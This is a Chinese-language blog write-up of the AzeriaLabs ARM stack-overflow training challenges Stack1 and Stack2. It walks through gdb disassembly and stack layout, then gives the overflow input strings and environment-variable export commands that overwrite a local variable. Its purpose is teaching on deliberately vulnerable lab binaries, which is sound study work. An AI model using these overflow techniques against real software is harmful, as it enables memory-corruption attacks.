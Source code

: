 ```yaml
---
title: "AzeriaLabs Challenges - Stack1"
excerpt: Summary for challenge Stack1
categories:
  - CTF
tags:
  - CTF
  - AzeriaLabs
comments: true
---
```


{% include toc %}

# 背景


最近学习了 https://azeria-labs.com/ 出的ARM Exploit教程，最后作者出了几个挑战题目，以下是的解题思路。

**（题目很简单，大神勿喷）**

题目在这： https://azeria-labs.com/part-3-stack-overflow-challenges/

# 环境

1. 直接使用作者提供的虚拟机 https://azeria-labs.com/arm-lab-vm/
2. armv6 树莓派

# 题目 Stack1

```
What you will learn

How to modify variables to specific values in the program
How the variables are laid out in memory
Goal: Change the ‘modified’ variable. You solved the challenge once “You have changed the ‘modified’ variable” is printed out.
```

## 初步运行

先直接运行看看，

```
pi@raspberrypi:~/ARM-challenges $ ./stack1
stack1: please specify an argument
```

那就加个参数

```
pi@raspberrypi:~/ARM-challenges $ ./stack1 1111111111111111
Try again, you got 0x00000000
```

再参数长点

```
pi@raspberrypi:~/ARM-challenges $ ./stack1 111111111111111111111111111111111111111111111111111111111111111111111111111111
Try again, you got 0x31313131
Segmentation fault
```

哇，数值变了。0x31就是1啦。而且crash了。

## 调试

```
gdb stack1
break main
run
```

输出汇编

```
gef> disassemble main
Dump of assembler code for function main:
=> 0x000104b0 <+0>:	push	{r11, lr}
   0x000104b4 <+4>:	add	r11, sp, #4
   0x000104b8 <+8>:	sub	sp, sp, #80	; 0x50
   0x000104bc <+12>:	str	r0, [r11, #-80]	; 0x50
   0x000104c0 <+16>:	str	r1, [r11, #-84]	; 0x54
   0x000104c4 <+20>:	ldr	r3, [r11, #-80]	; 0x50
   0x000104c8 <+24>:	cmp	r3, #1
   0x000104cc <+28>:	bne	0x104dc <main+44>
   0x000104d0 <+32>:	mov	r0, #1
   0x000104d4 <+36>:	ldr	r1, [pc, #92]	; 0x10538 <main+136>
   0x000104d8 <+40>:	bl	0x10370
   0x000104dc <+44>:	mov	r3, #0
   0x000104e0 <+48>:	str	r3, [r11, #-8]
   0x000104e4 <+52>:	ldr	r3, [r11, #-84]	; 0x54
   0x000104e8 <+56>:	add	r3, r3, #4
   0x000104ec <+60>:	ldr	r3, [r3]
   0x000104f0 <+64>:	sub	r2, r11, #72	; 0x48
   0x000104f4 <+68>:	mov	r0, r2
   0x000104f8 <+72>:	mov	r1, r3
   0x000104fc <+76>:	bl	0x10340
   0x00010500 <+80>:	ldr	r3, [r11, #-8]
   0x00010504 <+84>:	ldr	r2, [pc, #48]	; 0x1053c <main+140>
   0x00010508 <+88>:	cmp	r3, r2
   0x0001050c <+92>:	bne	0x1051c <main+108>
   0x00010510 <+96>:	ldr	r0, [pc, #40]	; 0x10540 <main+144>
   0x00010514 <+100>:	bl	0x1034c
   0x00010518 <+104>:	b	0x1052c <main+124>
   0x0001051c <+108>:	ldr	r3, [r11, #-8]
   0x00010520 <+112>:	ldr	r0, [pc, #28]	; 0x10544 <main+148>
   0x00010524 <+116>:	mov	r1, r3
   0x00010528 <+120>:	bl	0x10334
   0x0001052c <+124>:	mov	r0, r3
   0x00010530 <+128>:	sub	sp, r11, #4
   0x00010534 <+132>:	pop	{r11, pc}
   0x00010538 <+136>:			; <UNDEFINED> instruction: 0x000105bc
   0x0001053c <+140>:	cmnvs	r2, r4, ror #6
   0x00010540 <+144>:	ldrdeq	r0, [r1], -r8
   0x00010544 <+148>:	andeq	r0, r1, r0, lsl r6
End of assembler dump.

```

初步分析和调试下代码

![](/media/15122339822130.jpg)


上图红框中最关键的几行代码，只要满足 r3 r2 相等，就可以完成此题。调试发现 r2 每次都是0x61626364，字符串就是 `dcba`（小端）。

r2是相对pc的偏移，一般就是代码中的常量了。r3是相对r11（也就是fp）偏移-8。现在重点到看看r11。

r11是Frame Pointer地址（栈底），sp是栈顶，一般函数内的变量可以通过fp取相对偏移获取。程序的输入参数也是这样。

从上面我们输入超长数据的结果可知，超长数据覆盖了 `[r11,#-8]`，那程序大概就是简单的把输入存到字符数组中。

根据`sub sp,sp,#80`看到栈大小有80字节，也就是20个word。而r11是 sp+4后的值，这样我们可以看下整个Frame上的数据，在加上main第一行push也让sp减4，因此总共22个word。用命令 `x/22w $r11-84` 输出。

![](/media/15122365637942.jpg)


也就是把上图右下角的数值改为 0x61626364 就好了。
从第一个0x31313131算，需要17*4=64个字符，最后四个需要是`dcba`。

这样试试

![](/media/15122367482364.jpg)

![](/media/15122367796672.jpg)

## 通过

终于挑战通过。Yeah!

![](/media/15122368686347.jpg)

就像题目所说，是为了熟悉下 How the variables are laid out in memory。


# 题目 Stack2

与上一题目差不多，只是输入方式变成了环境变量。

![](/media/15123013446710.jpg)

断点到cmp指令可以看到，需要让环境变量最后的数值为\n\r\n\r。

![](/media/15123014415309.jpg)

也就是覆盖到上图的地址。从第一个0x31算下（假设输入是很多1111111），也就是需要17*4的字符，最后四个字符是`\n\r\n\r`。

怎么设置环境变量是`\n\r`呢？参考Stack Overflow的回答 https://stackoverflow.com/questions/41309822/how-do-i-actually-write-n-r-to-an-environment-variable

以下答案都可以了：

```
export GREENIE=$'1111111111111111111111111111111111111111111111111111111111111111\n\r\n\r'

# 136 = 17*4*2
export GREENIE="$(python -c 'print "\n\r"*136')"
```


# 题目 Stack3


//todo

